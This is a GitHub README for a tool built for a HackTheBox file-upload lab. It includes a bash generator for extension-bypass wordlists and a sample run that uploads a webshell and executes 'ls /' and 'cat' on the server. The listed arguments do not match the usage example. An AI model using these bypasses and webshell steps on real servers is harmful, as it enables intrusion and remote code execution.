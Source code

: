 # xxec
A command-line tool for exploiting XXE injection via file uploads

I built this tool to automate XXE injection for the **HackTheBox - File Upload Attacks** module. 

The script fuzzes for file extensions that have code execution, uploads a webshell and then allows the user to issue commands directly from the command line. 

## Arguments

- `-H`: Host (IP of the server)
- `-p`: Port (Port on which the web application is running)
- `-w`: Wordlist (Wordlist containing extensions to fuzz, items in the wordlist must be of the form `.ext`)
- `-c`: Check Directory (Directory where uploaded files are placed, you should omit the first `/` from the path as the script handles it automatically as shown in usage example below)

## Wordlist Generation

If you are coming here from the **File Upload Attacks - Skills Assessment** on **HTB**, you should make use of the wordlist generator provided within the module. 

Adjusted for the tool:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "$char$ext.svg" >> extensions-svg.txt
        echo "$ext$char.svg" >> extensions-svg.txt
        echo "svg$char$ext"  >> extensions-svg.txt
        echo "svg$ext$char"  >> extensions-svg.txt
    done
done
```

## Usage

```shell
python3 xxec.py -u 'http://SERVER:PORT/contact/upload.php' \
-w extensions.svg \
-c 'path/to/directory/'

[TEST 1/36] Trying extension: ..php.svg
[UPLOAD SUCCESS] test..php.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..php.svg
Response Status: 404

[TEST 2/36] Trying extension: .php..svg
[UPLOAD SUCCESS] test.php..svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.php..svg
Response Status: 404

[TEST 3/36] Trying extension: .svg..php
[UPLOAD SUCCESS] test.svg..php -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.svg..php
Response Status: 404

[TEST 4/36] Trying extension: ..phps.svg
[UPLOAD SUCCESS] test..phps.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..phps.svg
Response Status: 404

[TEST 5/36] Trying extension: .phps..svg
[UPLOAD SUCCESS] test.phps..svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.phps..svg
Response Status: 404

[TEST 6/36] Trying extension: .svg..phps
[UPLOAD SUCCESS] test.svg..phps -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.svg..phps
Response Status: 403

[TEST 7/36] Trying extension: ..phar.svg
[UPLOAD SUCCESS] test..phar.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..phar.svg
[CODE EXECUTION] SUCCESS: http://SERVER:PORT/path/to/directory/test..phar.svg

[!] Detected execution. Deploy attack payload? (y/n): y
[UPLOAD SUCCESS] shell..phar.svg -> Checking execution...
[+] Webshell uploaded: http://SERVER:PORT/path/to/directory/shell..phar.svg
Enter command to execute (or type 'exit' to stop): ls /
[COMMAND OUTPUT]

bin
boot
dev
etc
flag_xx.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Enter command to execute (or type 'exit' to stop): cat /flag_xx.txt
[COMMAND OUTPUT]

HTB{FLAG-GOES-HERE}
Enter command to execute (or type 'exit' to stop): 
```
